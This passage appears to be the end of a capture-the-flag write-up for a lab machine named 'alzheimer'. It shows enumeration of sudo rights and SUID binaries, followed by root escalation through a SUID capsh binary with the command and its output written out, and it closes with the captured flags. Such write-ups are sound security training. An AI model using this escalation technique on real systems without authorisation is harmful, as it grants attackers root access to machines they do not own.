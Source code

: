 #### >> Exploring binary vulnerabilities for privilage escalation

```shell
medusa@alzheimer:~$ sudo -l
Matching Defaults entries for medusa on alzheimer:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User medusa may run the following commands on alzheimer:
    (ALL) NOPASSWD: /bin/id
medusa@alzheimer:~$ find / -type f -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/umount
/usr/bin/gpasswd
/usr/sbin/capsh
medusa@alzheimer:~$ 
```
#### >> Search for information about /usr/sbin/capsh using the searchbins tool

- `https://gtfobins.github.io/gtfobins/capsh/#suid` - <a href="https://gtfobins.github.io/gtfobins/capsh/#suid" target="_blank" rel="noopener noreferrer">explore</a>

```shell
medusa@alzheimer:~$ /usr/sbin/capsh --gid=0 --uid=0 --
root@alzheimer:~# 

root@alzheimer:~# ls -al
total 36
drwxr-xr-x 3 medusa medusa 4096 Jun 19 00:58 .
drwxr-xr-x 3 root   root   4096 Oct  2  2020 ..
-rw------- 1 root   root     17 Jun 19 03:38 .bash_history
-rw-r--r-- 1 medusa medusa  220 Oct  2  2020 .bash_logout
-rw-r--r-- 1 medusa medusa 3526 Oct  2  2020 .bashrc
drwxr-xr-x 3 medusa medusa 4096 Oct  3  2020 .local
-rw-r--r-- 1 medusa medusa  807 Oct  2  2020 .profile
-rw-r--r-- 1 medusa medusa   19 Oct  3  2020 user.txt
-rw------- 1 medusa medusa  107 Oct  3  2020 .Xauthority
root@alzheimer:~# ls /root -al
total 24
drwx------  3 root root 4096 Oct  3  2020 .
drwxr-xr-x 18 root root 4096 Oct  2  2020 ..
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  3 root root 4096 Oct  2  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r-----  1 root root   16 Oct  3  2020 root.txt
root@alzheimer:~#
```
- We have both the flags

<br>
<center>pwned</center>